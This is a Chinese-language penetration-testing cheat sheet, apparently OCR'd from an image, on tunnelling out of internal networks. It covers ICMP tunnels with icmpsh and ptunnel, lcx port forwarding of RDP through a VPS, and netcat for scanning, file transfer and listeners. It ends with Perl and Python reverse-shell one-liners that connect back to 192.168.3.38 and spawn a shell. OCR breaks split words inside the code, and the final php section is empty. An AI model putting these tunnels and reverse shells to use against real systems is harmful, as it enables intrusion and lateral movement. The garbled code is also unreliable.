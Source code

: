 # 判断内网连通性
icmp 协议 ping
tcp 协议 nc
http 协议 curl
dns协议 nslookup 
# 网络层隧道技术 
## icmp隧道
inquisb/icmpsh.git
域内kaili 连接域内win7
./icmpsh_m.py ip0
icmpsh.exe -t ip -d 500 -b 30 -s 128
# Pingtunnel
http://freshmeat.sourceforge.net/projects/ptunnel 
tar xf PingTunnel-0.72.tar.gz cd 
PingTunnel make && make install 边界服务器上运行：
ptunnel –x 123 123是密码 
VPS运行:ptunnel –p 192.168.3.21 –lp 1080 –da 192.168.150.7 –dp 3389 –x 123
x验证码 -Ip tcp端口 -da 转发到的ip -dp 要转发的tcp端口-p cimp隧道另一端的ip
# libpcap
Wget http://www.tcpdump.org/release/libpcap-1.9.0.tar.gz 
configure: error: Neither flex nor lex was found. 
apt install flex bison

# 传输层隧道技术 
## lcx
Lcx使用： 将目标主机的本地端口所有数据转发到公网vps上： Lcx.exe slave <vps的ip> 4444 127.0.0.1 3389 在vps上监听：lcx.exe –listen 4444 5555 然后在本地计算机上远程登录ip（vps）:5555。即可登录内网的3389 本地端口映射： 如果目标服务某端口（如3389）不能通过防火墙，可以将流量转发到允许通过的端 口上， Lcx –tran 53 <目标主机ip地址> 3389 然后远程连接目标主机ip：53
## netcat
Netcat的安装 Linux：yum install nc.x86_64 Wget http://sourceforge.net/project/netcat/files/netcat/0.7.1/netcat- 0.7.1.tar.gz/download -O netcat-0.7.1.tar.gz Windows: Nc:https://joncraton.org/files/nc111nt.zip Nc_safe:https://joncraton.org/files/nc111nt_safe.zip
1. banner -nv 192.168.1.1 21
2. 远程连接 -nvv 192.168.1.1 80
3. 端口扫描-v 192.168.1.1 /-v -z 192.3168.1.1 80-8080
4. 端口监听 nc -I -p 9999 本地
5. 文件传输 -lp 333 >1.txt /-vn 192.168.1.1 333 < test .txt 
6. 简单聊天 nc -l -p 888 / nc -vn 192.168.1.1 888
7. 反向shell 
perl
 ```
perl -e 'use Socket;$i="192.168.3.38";$p=6666;socket(S,PF_INET,SOCK_STREAM,getprotob yname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");op en(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
python 
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("192.168.3.38",6666));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.du p2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'

```
php
```
```